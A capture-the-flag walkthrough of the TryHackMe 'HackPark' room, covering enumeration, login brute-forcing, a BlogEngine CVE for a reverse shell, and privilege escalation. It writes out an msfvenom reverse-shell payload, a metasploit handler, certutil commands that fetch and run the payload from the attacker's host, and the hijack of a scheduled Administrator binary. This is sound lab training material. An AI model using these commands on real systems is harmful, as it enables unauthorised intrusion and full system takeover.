


# HackPark (THM)

- https://tryhackme.com/room/hackpark
- March 18, 2023
- medium

---

## Enumeration

### Nmap

```
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ssl/ms-wbt-server?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### HTTP

- found login page 


- CMS may be blogengine.net

```
1. Whats the name of the clown displayed on the homepage?
- download the image and search in google lens
- found that it is from IT Part 2 TV series
- answer is name of clown
```


```
2. What request type is the Windows website login form using?
- it is clear `POST`
```

```
3. Guess a username, choose a password wordlist and gain credentials to a user account!
- the author suggest to user hydra but for me use turbo intruder from burp which is too fast
- I look up the hint for username as I normally don't want to brute force at login pages
```




- enter admin panel 


```
4. Now you have logged into the website, are you able to identify the version of the BlogEngine?
```




- OR https://www.exploit-db.com/exploits/46353

```
5. What is the CVE?
CVE-2019-6714
```

## User Access

- to get reverse shell


- in `http://$IP/admin/app/editor/editpost.cshtml?id=f39c3289-e861-48f7-a4b7-edaaffe6f6dc`


- upload here


- request to http://$IP/?theme=../../App_Data/files and


```
6. Who is the webserver running as?
iis apppool\blog
```

## Privilege Escalation

### Metasploit

- we need to change the shell to meterpreter shell
- at local machine
1. Create payload with msfvenom

- `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$TUN_IP LPORT=$PORT -f exe > program.exe`

2. Listen with multi handler in metasploit

```
use multi/handler
set payload /windows/x64/meterpreter/reverse_tcp
set LHOST
set LPORT
run
```

3. Create python server at the same directory where program.exe file exists to share the program.exe file

- `python3 -m http.server 8888`

- from remote shell, get program.exe file

4. first go to public directory - `cd c:\Users\Public\Downloads`

5. download program.exe file - `certutil -urlcache -f http://$TUN_IP:8888/program.exe`

6. run `program.exe`

- will get meterpreter access 

```
7. What is the OS version of this windows machine?
> in meterpreter - `sysinfo`
```

- transfer `winpeas` using the same method as `program.exe` and run

```
8. What is the name of the abnormal service running?
- WindowsScheduler
```


- you can change meterpreter session and shell by
- meterpreter -> `shell` - get shell access
- in shell -> `exit` to return meterpreter
- in meterpreter,

```sh
meterpreter > cd C:\Program Files (x86)\SystemScheduler
meterpreter > cat Events\\20198415519.INI_LOG.txt
```


- Message.exe file is running once per 30 seconds by Administrator
```
9.  What is the name of the binary you're supposed to exploit? 
- Message.exe
```

- replace `Message.exe` with our `program.exe` file

```sh
meterpreter > shell
C:\Program Files (x86)\SystemScheduler > certutil -urlcache -f http://10.11.8.57:8888/program.exe shell.exe
C:\Program Files (x86)\SystemScheduler > exit

meterpreter > mv Message.exe Message.bak
meterpreter > mv shell.exe Message.exe
meterpreter > background

msf6 exploit(multi/handler) > use /multi/handler
msf6 exploit(multi/handler) > run
```
- wait for 30 seconds and get admin access


```
10.  What is the user flag (on Jeffs Desktop)?
meterpreter > cat C:\Users\jeff\Desktop\user.txt
```

```
11.  What is the root flag?
meterpreter > cat C:\Users\Administrator\Desktop\user.txt
```

```
12. what was the Original Install time? (This is date and time)
- can see in systeminfo
```


---